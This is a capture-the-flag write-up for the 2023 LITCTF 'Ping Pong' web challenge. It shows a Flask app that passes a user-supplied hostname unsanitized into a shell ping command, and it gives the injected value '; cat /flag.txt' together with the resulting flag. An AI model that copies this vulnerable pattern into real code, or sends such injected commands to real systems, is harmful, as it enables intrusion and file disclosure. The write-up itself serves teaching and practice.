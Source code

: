 ```yaml
---
title: 2023 LITCTF - Ping Pong
date: 2023-08-08 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_LITCTF
  - Web Exploitation
  - OS command injection
---
```


## Overview

* 387 solves / 114 points
* Author: Ethan

## Description

> I made this cool website where you can ping other websites!

### Attached

[pingpong.zip](https://github.com/encuetee/CTF-writeups/blob/main/2023/2023_LITCTF/attached/pingpong.zip)

This is ```pingpong.py``` file

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output=output)

```

## Analyzation

When receiving ```hostname``` from the ```POST``` method, the command will be executed without validating the data from ```hostname```
```py
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This leads to [command injection](https://owasp.org/www-community/attacks/Command_Injection).

## Solution

Send POST request with the ```hostname``` value
```
; cat /flag.txt
```

The flag is
```
LITCTF{I_sh0uld_b3_m0r3_c4r3ful}
```